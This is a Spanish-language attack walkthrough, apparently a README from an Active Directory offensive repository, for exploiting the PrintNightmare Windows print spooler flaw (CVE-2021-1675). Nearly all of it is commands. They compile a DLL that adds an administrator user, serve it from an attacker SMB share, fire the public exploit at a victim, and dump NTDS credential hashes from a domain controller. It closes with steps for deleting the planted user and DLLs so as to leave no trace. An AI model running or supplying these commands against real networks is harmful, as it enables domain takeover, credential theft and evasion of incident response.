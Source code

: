 # PrintNighmare

Para este ataque se va a aprovechar una vulnerabilidad en el servicio spooler de Windows para añadir un usuario con permisos de administrador. Tener en cuenta que para no dejar rastro después haya que eliminar el usuario y los dll subidos en el equipo víctima

```Bash
# Comprobamos que el equipo es vulnerable
poetry run crackmapexec smb <Rango de IPs> -u <user> -p <pass> -M spooler

# Obtenemos el fichero .c para añadir usuario del repositorio de Github: https://github.com/newsoft/adduser y lo compilamos
x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32

# Levantamos una carpeta compartida para que el equipo victima obtenga la dll que heoms creado
impacket-smbserver -smb2support ATTACKERSHARE .

# Ejecutamos el exploit CVE-2021-1675.py obtenido del repositorio de Github: https://github.com/cube0x0/CVE-2021-1675
python3 CVE-2021-1675.py <dominio>/<user>:'<pass>'@<DNS del equipo victima> '\\<Nuestra IP>\ATTACKERSHARE\pnightmare2.dll'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/pritnightmare/vid.gif?raw=true "Check de printnighmare y esploit")

```Bash
# Comprobación de que el usuario printnighmare con permisos de administrador ha sido creado
cme smb <IP víctima> -u pnightmare2 -p 'Test123456789!'

# Si es un DC volcar el NTDS
cme smb <IP víctima> -u pnightmare2 -p 'Test123456789!' --ntds
 
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/printnighmare/vid2.gif?raw=true "Explotar el nuevo usuario")


## Para eliminar el rastro ver:
[Añadir/Eliminar usuarios](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/utilities/add_remove_users)
## PAra borrar las ddl se encuentran en las siguietnes ubicaciones de windows con el nombre de printnighmare*.dll
```Bash
C:\Windows\System32\spool\drivers\x64\3
C:\Windows\System32\spool\drivers\x64\3\Old\{id}\
```
